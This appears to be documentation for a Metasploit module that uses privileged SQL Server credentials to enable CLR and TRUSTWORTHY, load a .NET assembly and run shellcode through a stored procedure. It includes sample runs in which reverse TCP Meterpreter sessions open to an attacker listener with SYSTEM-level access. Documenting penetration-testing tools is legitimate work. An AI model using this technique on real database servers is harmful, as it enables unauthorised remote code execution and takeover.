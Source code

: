 ## Introduction

This module is based on the work that was done by @leechristensen and @sekirkity as
documented [here](https://web.archive.org/web/20200810021536/http://sekirkity.com/command-execution-in-sql-server-via-fileless-clr-based-custom-stored-procedure/).

## Prerequisites

The module requires SQL credentials for a user with sufficient privileges to:

* Enable CLR support (if not already enabled).
* Enabled `TRUSTWORTHY` (if not already enabled).
* Add an assembly to the server.
* Create a new stored procedure.

The module does all of the above, as required. It uploads a .NET Assembly (pre-built, and stored in the `data` folder) which is selected based on the version of the DB in question. This is a shim that exposes a function that allows for a base64-encoded payload to be executed as native shellcode. This function is exposed as a stored proc, which can be called directly through an SQL query with the base64 encoded shellcode.

This module was tested on SQL 2005, 2012 and 2016 (all x64 versions). I haven't tested on x86 yet. there is code in the module that makes sure that the target architecture matches the payload that was chosen.

This code also includes command-line builds for the assembly that is used to provide the code execution function, and can be built in the same way that all the other exploits are built (from a Visual Studio command line).

## Sample Runs:

MS SQL 2005:

```
msf exploit(mssql_clr_payload) > exploit

[*] [2017.02.10-12:56:15] Started reverse TCP handler on 172.16.255.1:4444
[!] [2017.02.10-12:56:15] 172.16.255.130:1433 - Setting EXITFUNC to 'thread' so we don't kill SQL Server
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Database does not have CLR support enabled, enabling ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Using version v3.5 of the Payload Assembly
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Adding custom payload assembly ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Exposing payload execution stored procedure ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Executing the payload ...
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Removing stored procedure ...
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Removing assembly ...
[*] [2017.02.10-12:56:16] Sending stage (1189423 bytes) to 172.16.255.130
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Restoring CLR setting ...
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Restoring Trustworthy setting ...
[*] Meterpreter session 10 opened (172.16.255.1:4444 -> 172.16.255.130:49168) at 2017-02-10 12:56:18 +1000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-8CT6HVI5D6J
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

MS SQL 2016

```
msf exploit(mssql_clr_payload) > exploit

[*] [2017.02.10-12:55:58] Started reverse TCP handler on 172.16.255.1:4444
[!] [2017.02.10-12:55:58] 172.16.255.129:1433 - Setting EXITFUNC to 'thread' so we don't kill SQL Server
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Database does not have CLR support enabled, enabling ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Using version v4.0 of the Payload Assembly
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Adding custom payload assembly ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Exposing payload execution stored procedure ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Executing the payload ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Removing stored procedure ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Removing assembly ...
[*] [2017.02.10-12:55:58] Sending stage (1189423 bytes) to 172.16.255.129
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Restoring CLR setting ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Restoring Trustworthy setting ...
[*] Meterpreter session 9 opened (172.16.255.1:4444 -> 172.16.255.129:49732) at 2017-02-10 12:56:00 +1000

meterpreter > getuid
Server username: NT Service\MSSQLSERVER
meterpreter > sysinfo
Computer        : WIN-7QEE7C4D0GF
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
